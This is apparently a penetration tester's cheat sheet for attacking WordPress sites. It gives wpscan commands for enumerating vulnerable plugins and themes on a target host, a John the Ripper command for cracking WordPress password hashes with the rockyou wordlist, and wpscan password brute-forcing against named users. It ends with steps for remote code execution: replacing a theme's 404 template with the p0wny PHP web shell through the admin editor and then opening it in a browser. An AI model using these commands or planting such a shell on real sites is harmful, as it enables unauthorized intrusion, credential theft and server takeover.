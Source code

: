 # Wordpress

### Enumerating vulnerable plugins

{% code fullWidth="true" %}
```bash
wpscan --url targethost.com.br --api-token TOKEN --enumerate vp --plugins-detection aggressive
```
{% endcode %}

### Enumerating vulnerables themes

{% code fullWidth="true" %}
```bash
wpscan --url targethostt.com.br --api-token TOKEN --enumerate vt --plugins-detection aggressive
```
{% endcode %}

### Breaking md5 hash (possible wordpress hash) with john

{% code fullWidth="true" %}
```bash
john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt hash
```
{% endcode %}

```bash
# Scan
wpscan --rua -e --url <URL>

# Brute force user(s)
wpscan --rua --url <URL> -P <PASSWORDS_LIST> -U "<USER>,<USER>"
```

### **Wordpress panel RCE**

```bash
Modifying a php from the theme used (admin credentials needed)

Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
```
